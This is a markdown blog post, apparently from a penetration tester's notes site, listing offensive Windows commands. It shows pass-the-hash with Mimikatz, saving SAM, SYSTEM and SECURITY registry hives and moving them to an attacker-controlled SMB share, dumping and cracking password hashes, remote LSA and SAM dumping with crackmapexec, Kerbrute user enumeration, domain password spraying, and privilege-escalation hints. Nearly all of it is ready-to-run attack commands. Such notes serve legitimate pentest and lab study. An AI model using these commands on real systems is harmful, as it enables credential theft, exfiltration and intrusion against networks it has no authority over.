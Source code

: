 ```yaml
---
layout: post
title: Commands & Hacks - Windows
toc: true
subtitle: Windows
comments: false
---
```


<b>Windows Authentication Tricks:</b> <br>

Windows Authentication Process Flowchart:

![auth](/pictures/windows/auth_process.png)

RDP via xfreerdp:

```
xfreerdp +clipboard /u:<user> /v:<target-IP> /cert-ignore
```

WinRM Auth via Evil-winrm:
```
evil-winrm -i <target-IP> -u <user> -p <pass>
```

Mimikatz Options:
```
/user
/rc4 - hash
/NTLM - hash
/domain - domain that the user to impersonate with belongs to i.e. localhost, DC01
/run - program running in user's context
```

Pass the Hash via Mimikatz cmd:
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /domain DC01 /rc4:<hash> /domain:<domainname> /run:cmd.exe"

pushd \\DC01\<user>
 ```

<b>Windows Hashes & Passwords</b> <br>

Non-domain joined windows system, grab the 3 SAM registry hives.
```
hklm\sam - Local User Account Passwords Hashes
hklm\system - System Bootkey to decrypt SAM database
hklm\security - Domain Accounts' cached credentials
```

SAM backup command:
```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Create Share server with smbserver.py to dump SAM:
```
sudo python3 /usr/bin/tools/impacket_smbserver.py -smb2support CompData /home/kali/Documents/
```
Move hive copies to Share server:
```
move sam.save \\<attacker_ip>\CompData
move security.save \\<attacker_ip>\CompData
move system.save \\<attacker_ip>\CompData
```
Dump Command:
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Cracking NT Hashes via hashcat:
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
Cracking NTLMv2 Hash with hashcat:
```
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

Remote LSA Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --lsa
```
Remote SAM Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --sam
```
Enumerate Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Base64 encoding in Powershell for File Transfer:
```
[Convert]::ToBase64String((Get-Content -path "C:\..\file.txt" -Encoding byte)) | clip
```
Using DomainPasswordSpray.ps1:
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
Check Defender status:
```
Get-MpComputerStatus
```
Post Exploit:
```
whoami /priv
```
If SeRestorePrivilege listed, run EnableSeRestorePrivilege.ps1 to have write access to C:\Windows\System32.

If SeImpersonatePrivilege, use juicy potato
